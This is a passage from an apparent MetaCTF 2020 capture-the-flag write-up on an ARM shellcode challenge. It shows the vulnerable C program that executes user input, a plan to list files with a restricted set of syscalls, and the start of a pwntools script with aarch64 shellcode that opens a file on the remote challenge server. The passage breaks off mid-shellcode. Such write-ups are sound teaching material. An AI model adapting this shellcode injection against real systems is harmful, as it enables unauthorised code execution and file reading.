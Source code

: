 	alarm(30);

	memset(&code, 0, 1000); 
	read(0, &code, 1000);
	puts("Processing code...");

	sandbox();

	(*(void(*)()) code)();

	return 0;
}
{% endhighlight %}

as you can see this is a shellcode challenge, we can only use a few syscall openat, read, getdents64, write, exit, exit_group. so I plan to get directory entries
inside a directory by using getdents64 and print out the flag file. since the name of the flag will be an uncommon name, so we have to find out manually.
when the program crash, it will reveal a file path. so I'm planning to read that file first.



<img src="/images/MetaCTF2020/executor1.png"/>

this is my assembly script to read `/opt/start/executor-arm.sh`:
{% highlight python %}
from pwn import *
context.arch = "aarch64"
def main():
    r = remote("executor-arm.metaproblems.com",12334)
    p = '''
    // stage 1: reading an known file 
    // fd = openat(0, "/opt/start/executor-arm.sh", O_RDONLY)
    mov  x0, xzr
    mov  x1, #0x6873
    movk x1, #0x00, lsl #16
    str  x1, [sp, #-8]!
    mov  x1, #0x6f74
    movk x1, #0x2d72, lsl #16
    movk x1, #0x7261, lsl #32
    movk x1, #0x2e6d, lsl #48
    str  x1, [sp, #-8]!
    mov  x1, #0x7472
    movk x1, #0x652f, lsl #16
    movk x1, #0x6578, lsl #32
    movk x1, #0x7563, lsl #48
    str  x1, [sp, #-8]!
    mov  x1, #0x6f2f
    movk x1, #0x7470, lsl #16
    movk x1, #0x732f, lsl #32
    movk x1, #0x6174, lsl #48
    str  x1, [sp, #-8]!
    add  x1, sp, x0
    mov  x2, xzr
    mov  x8, #56
    svc  #0x1337

    mvn  x3, x0
